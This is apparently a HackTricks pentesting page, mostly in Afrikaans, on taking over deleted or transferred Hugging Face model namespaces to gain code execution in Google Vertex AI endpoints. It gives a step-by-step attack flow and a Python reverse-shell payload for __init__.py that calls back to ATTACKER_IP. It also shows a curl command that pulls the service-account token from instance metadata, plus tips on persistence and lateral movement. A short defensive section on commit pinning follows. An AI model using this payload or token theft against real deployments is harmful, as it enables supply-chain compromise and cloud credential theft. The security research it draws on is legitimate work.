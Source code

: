 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenario

- Vertex AI Model Garden laat toe dat baie Hugging Face (HF) models direk gedeploy word.
- HF model identifiers is Author/ModelName. As ’n author/org op HF verwyder word, kan dieselfde author-naam deur enigiemand herregistreer word. Aanvallers kan dan ’n repo met dieselfde ModelName by die ou pad skep.
- Pipelines, SDKs, of cloud-kataloge wat net per naam haal (geen pinning/integrity) sal die aanvaller-beheerde repo trek. Wanneer die model gedeploy word, kan loader-code uit daardie repo binne die Vertex AI endpoint container uitgevoer word, wat RCE met die endpoint se toestemming moontlik maak.

Twee algemene oorname-gevalle op HF:
- Ownership deletion: Ou pad 404 totdat iemand die author herregistreer en dieselfde ModelName publiseer.
- Ownership transfer: HF gee 307 redirects vanaf die ou Author/ModelName na die nuwe author. As die ou author later verwyder en deur ’n aanvaller herregistreer word, word die redirect-ketting gebreek en dien die aanvaller se repo by die ou pad.

## Identifying Reusable Namespaces (HF)

- Old author deleted: die bladsy vir die author gee 404 terug; model-pad kan 404 teruggee totdat daar ’n oorname is.
- Transferred models: die ou model-pad gee 307 terug na die nuwe eienaar terwyl die ou author nog bestaan. As die ou author later verwyder en herregistreer word, sal die ou pad na die aanvaller se repo wys.

Quick checks with curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Einde-tot-einde Aanvalsverloop teen Vertex AI

1) Ontdek herbruikbare model-naamruimtes wat Model Garden lys as deployable:
- Vind HF-modelle in Vertex AI Model Garden wat steeds as “verified deployable” vertoon.
- Verifieer op HF of die oorspronklike auteur verwyder is of of die model oorgedra is en die ouer auteur later verwyder is.

2) Herregistreer die verwyderde auteur weer op HF en skep dieselfde ModelName opnuut.

3) Publiseer 'n kwaadwillige repo. Sluit kode in wat by model load uitgevoer word. Voorbeelde wat algemeen tydens HF model load uitgevoer word:
- By-effekte in __init__.py van die repo
- Aangepaste modeling_*.py of verwerkingskode wat in config/auto_map verwys word
- Kodepaaie wat trust_remote_code=True in Transformers pipelines vereis

4) 'n Vertex AI deployment van die legacy Author/ModelName trek nou die aanvaller se repo. Die loader voer binne die Vertex AI endpoint-container uit.

5) Payload vestig toegang vanaf die endpoint-omgewing (RCE) met die endpoint se toestemmings.

Voorbeeld van 'n payload-fragment wat by import uitgevoer word (slegs vir demonstrasie):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Aantekeninge
- Werklike loaders verskil. Baie Vertex AI HF-integrasies kloon en importeer repo-modules wat in die model’s config verwys word (bv. auto_map), wat code execution kan uitlok. Sommige gebruiksgevalle vereis trust_remote_code=True.
- Die endpoint loop tipies in 'n toegewyde container met beperkte omvang, maar dit is 'n geldige aanvanklike foothold vir data toegang en lateral movement in GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Sodra code binne die endpoint container loop, oorweeg:
- Enumereer omgewingsveranderlikes en metadata vir credentials/tokens
- Toegang tot aangehegte storage of gemonteerde model artifacts
- Interaksie met Google APIs via service account identity (Document AI, Storage, Pub/Sub, etc.)
- Persistensie in die model artifact as die platform die repo weer intrek

Enumereer instance metadata indien toeganklik (container-afhanklik):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Verdedigingsriglyne vir Vertex AI-gebruikers

- Pin modelle per commit in HF loaders om stille vervanging te voorkom:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Spieël geverifieerde HF-modelle na 'n betroubare interne artifact store/registry en ontplooi van daar.
- Deurlopend skandeer codebases en configs vir hard-coded Author/ModelName wat verwyder of oorgedra is; werk dit by na nuwe namespaces of pin dit per commit.
- In Model Garden, verifieer die model se herkoms en die bestaan van die author voor ontplooiing.

## Herkenningsheuristieke (HTTP)

- Verwyderde author: author page 404; legacy model path 404 totdat oorneem plaasvind.
- Oorgedra model: legacy path 307 na nuwe author terwyl die ou author bestaan; as die ou author later verwyder en weer geregistreer word, bedien die legacy path aanvaller-inhoud.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Kruisverwysings

- Sien die breër metodologie- en voorsieningskettingnotas:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Verwysings

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
